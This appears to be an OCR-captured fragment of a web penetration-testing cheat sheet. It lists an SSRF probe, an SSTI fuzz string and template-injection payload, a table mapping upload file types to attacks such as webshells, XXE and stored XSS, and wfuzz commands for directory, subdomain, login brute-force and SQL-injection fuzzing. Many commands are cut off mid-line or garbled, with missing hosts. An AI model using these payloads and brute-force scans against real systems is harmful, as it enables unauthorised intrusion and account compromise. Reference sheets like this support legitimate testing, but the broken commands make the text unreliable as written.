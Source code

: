 Server-Side Request Forgery (SSRF)

https\:///item/2?server=server./file?id=9\&x=

Server-Side Template Injection (SSTI)

Fuzz String

<https://tinyurl.com/ypta53z7>

${{<%\[%'"}}%.

Magic Payload

<https://tinyurl.com/ylkmvys6>

{{ ''. class . mro \[1]. subclasses () }}

Upload Vulnerabilities

ASP / ASPX / PHP / PHP3 / PHP5: Webshell / Remote Code Execution SVG: Stored XSS / Server-Side Request Forgery GIF: Stored XSS CSV: CSV Injection XML: XXE AVI: Local File Inclusion / Server-Side request Forgery HTML/JS: HTML Injection / XSS / Open Redirect PNG / JPEG: Pixel Flood Attack ZIP: Remote Code Exection via Local File Inclusion PDF / PPTX: Server-Side Request Forgery / Blind XXE

wfuzz

wfuzz -w /usr/share/wfuzz/wordlist/general/big.txt -u http\:///FUZZ/.ph

Write to File

wfuzz -w /PATH/TO/WORDLIST -c -f -u http\:// --hc 403,404

Custom Scan with limited Output

wfuzz -w /PATH/TO/WORDLIST -u http\:///dev/304c0c90fbc6520610abbf378e2339d1/d

Fuzzing two Parameters at once

wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u http\://\<RHO

Domain

wfuzz --hh 0 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -

Subdomain

wfuzz -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.

Git

wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files-lowe

Login

wfuzz -X POST -u "http\://:/login.php" -d "email=FUZZ\&password=\<PASSWO wfuzz -X POST -u "http\://:/login.php" -d "username=FUZZ\&password=\<PAS

SQL

wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d 'db

DNS

wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Or wfuzz -c -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-1100 wfuzz -c -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-1100
